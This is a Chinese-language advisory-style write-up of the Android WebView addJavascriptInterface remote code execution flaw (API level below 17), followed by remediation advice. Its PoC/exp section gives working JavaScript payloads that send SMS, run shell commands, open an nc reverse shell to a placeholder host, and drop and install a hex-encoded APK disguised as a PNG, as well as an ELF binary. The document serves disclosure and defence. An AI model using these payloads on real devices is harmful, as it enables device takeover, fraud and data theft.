






## Android Webview远程代码执行漏洞
> 砸漏发布于2020-11-05

### 漏洞描述

Webview是Android用于浏览网页的组件，其包含的接口函数addJavascriptInterface可以将Java类或方法导出以供JavaScript调用，实现网页JS与本地JAVA的交互。由于系统没有限制已注册JAVA类的方法调用，因此未注册的其它任何JAVA类也可以被反射机制调用，这样可能导致被篡改的URL中存在的恶意代码被执行，用户手机被安装木马程序，发送扣费短信，通信录或者短信被窃取，甚至手机被远程控制。

### 影响范围

Android API level 小于17 (即Android 4.2之前的系统版本)

### 漏洞详情

#### 漏洞位置

```java
 WebView.addJavascriptInterface(Object obj, String interfaceName)  
```

#### 漏洞触发条件

使用addJavascriptInterface方法注册可供JavaScript调用的Java对象； 

使用WebView加载外部网页或者本地网页； 

Android系统版本低于4.2； 

#### 漏洞原理

Android系统通过WebView.addJavascriptInterface方法注册可供JavaScript调用的Java对象，以用于增强JavaScript的功能。但是系统并没有对注册Java类的方法调用的限制。导致攻击者可以利用反射机制调用未注册的其它任何Java类，最终导致JavaScript能力的无限增强。攻击者利用该漏洞可以根据客户端能力为所欲为。

### poc/exp

1. 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API sendTextMessage来发送短信。 

 java代码： 
```java
mWebView = new WebView(this);
mWebView.getSettings().setJavaScriptEnabled(true);
mWebView.addJavascriptInterface(this, "injectedObj");
mWebView.loadUrl(file:///android_asset/www/index.html);
```

 EXP的JavaScript代码： 
```html
<html>
 <body>
 <script>
  var objSmsManager = injectedObj.getClass().forName("android.telephony.SmsManager").getM ethod("getDefault",null).invoke(null,null);
  objSmsManager.sendTextMessage("10086",null,"this message is sent by JS when webview is loading",null,null);
 </script>
 </body>
</html>
```

 2) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令： 

 EXP的JavaScript代码： 

```html
<html>
 <body>
 <script>
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }

  var res = execute(["/system/bin/sh", "-c", "ls -al /mnt/sdcard/"]);
  document.write(getContents(res.getInputStream()));
 </script> 
 </body>
</html>
```

 利用后的执行结果：



 3) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令，达到反弹一个手机端的shell到远程控制端的目的： 

 EXP的JavaScript代码： 
```html
<html>
 <body>
 <script> 
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }
  execute(["/system/bin/sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/system/bin/sh -i 2 &1|nc x.x.x.x 9099  /tmp/f"]);
 </script>
 </body>
</html>
```

执行后的结果： 



 4) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令进行挂马：a安装木马应用APK, b 安装执行ELF可执行程序； 

 简单的安装发送短信木马APK，EXP的JavaScript代码： 

```html
<html>
 <body>
 <script> 
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }
  var apk = "\x50\x4B\x03\x04\x14\x00\x08\x00\x08\x00\x62 \xB9\x15\x30\x3D\x07\x01\x00\x00\x7C\x01\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xD6\x0D\x00\x00\x4D\x45\x54\x41\x2D\x49\x4E\x46\x2F\x43\x45\x52\x54\x2E\x53------------------------------------------------------------ \x4D\x45\x54\x41\x2D\x49\x4E\x46\x2F\x43\x45\x52\x54\x2E\x52\x53\x41\x50\x4B\x05\x06\x00\x00\x00\x00\x07\x00\x07\x00\xBA\x01\x00\x00\xB6\x11\x00\x00\x00\x00"
  execute(["/system/bin/sh","-c","echo '"+apk+"'   /data/data/com.example.hellojs/fake.png"]);
  execute(["chmod","755","/data/data/com.example.hellojs/fake.png"]);
  execute(["su","-c","pm install -r /data/data/com.example.hellojs/fake.png"]);
 </script> 
 </body>
</html>
```

由下图可得知我们已经拼接成了一个APK程序，并伪装成一张png图片： 



 由下图可知，我们已经成功安装fake.png APK程序： 



 例如网上流行的Androrat远程控制程序，攻击者利用上述漏洞即可简单的安装此远程控制木马应用APK即可达到远程控制用户手机的目的。 

 利用漏洞拼接可执行ELF程序，并执行该ELF程序达到为所欲为的目的，博文Abusing WebView JavaScript Bridges

【3】还实现了在非root情况下利用ELF可执行程序偷取sdcard的文件的POC，由此可见，该漏洞的危害性极大： 

 EXP的JavaScript代码： 

```html
<html>
 <body>
  <script> 
   function execute(cmdArgs)
   {
    return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
   }
   var bin = "\x7F\x45\x4C\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x28\x00\x01\x00\x00\x00\xE4\x83\x00\x00\x34\x00\x00\x00\x58\x21\x00\x00\x00\x00\x00\x05\x34\x00\x20\x00\x08\x00\x28\x00\x18\x00\x17\x00\x06\x00\x00\x00\x34\x00\x00\x00\x34\x80\x00\x00\x34\x80\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x04\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00\x34\x01\x00\x00\x34\x81\x00\x00\x34\x81\x00\x00\x13--------------------------------------------------------------------------------------------------------------------------------\x00\x00\x00\x00\xD4\x00\x00\x00\x03\x00\x00\x70\x00\x00\x00\x00\x00\x00\x00\x00\x44\x20\x00\x00\x2D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x71\x20\x00\x00\xE4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00";
   execute(["/system/bin/sh","-c","echo '" + bin + "'   /data/data/com.example.hellojs/testBin"]);
   execute(["chmod","755","/data/data/com.example.hellojs/testBin"]);
   var res = execute(["/data/data/com.example.hellojs/testBin"]);
   document.write(getContents(res.getInputStream()));
  </script>
 </body>
</html>
```

 “testBin”文件已拼接生成，如下图所示：



 执行之后的结果如下： 




### 漏洞修复建议

1. 通过@JavascriptInterface注解

 出于安全考虑，为了防止Java层的函数被随便调用，Google在4.2版本之后，规定允许被调用的函数必须以@JavascriptInterface进行注解，所以如果某应用依赖的API Level为17或者以上，就不会受该问题的影响（注：Android 4.2中API Level小于17的应用也会受影响）。按照Google官方文档[4]使用示例： 

```java
class JsObject {
 @JavascriptInterface
 public String toString() { return "injectedObject"; }
}
webView.addJavascriptInterface(new JsObject(), "injectedObject");
webView.loadData("", "text/html", null);
webView.loadUrl("javascript:alert(injectedObject.toString())");
```

2. API Level等于或高于17的Android系统 

建议不要使用addJavascriptInterface接口，以免带来不必要的安全隐患，请参照博文《在Webview中如何让JS与Java安全地互相调用》[5]。 

如果一定要使用addJavascriptInterface接口: 

- 如果使用HTTPS协议加载URL，应进行证书校验防止访问的页面被篡改挂马；
- 如果使用HTTP协议加载URL，应进行白名单过滤、完整性校验等防止访问的页面被篡改；
- 如果加载本地Html，应将html文件内置在APK中，以及进行对html页面完整性的校验； 

3. 移除Android系统内部的默认内置接口 

 同时，在2014年发现在Android系统中webkit中默认内置的一个searchBoxJavaBridge_ 接口同时存在远程代码执行漏洞，该漏洞公布于CVE-2014-1939[6], 建议开发者通过以下方式移除该Javascript接口: 
```java
 removeJavascriptInterface("searchBoxJavaBridge_") 
```

 2014年香港理工大学的研究人员Daoyuan Wu和Rocky Chang发现了两个新的攻击向量存在于android/webkit/AccessibilityInjector.java中，分别是”accessibility” 和”accessibilityTraversal” ，调用了此组件的应用在开启辅助功能选项中第三方服务的安卓系统中会造成远程代码执行漏洞。该漏洞公布于CVE-2014-7224, 此漏洞原理与searchBoxJavaBridge_接口远程代码执行相似，均为未移除不安全的默认接口，建议开发者通过以下方式移除该JavaScript接口： 
```java
removeJavascriptInterface("accessibility")；
removeJavascriptInterface("accessibilityTraversal")；
```


### 参考文章

[1] [CVE-2012-6636](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-6636) 

[2] [Attacks on WebView in the Android System ](https://web.ecs.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf)

[3] [Abusing WebView JavaScript Bridges](https://d3adend.org/blog/posts/abusing-webview-javascript-bridges/) 

[4] [addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface(java.lang.Object,%20java.lang.String))  

[5] [在Webview中如何让JS与Java安全地互相调用](http://static.kancloud.cn/digest/android-safe/107906)

[6] [CVE-2014-1939](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-1939)
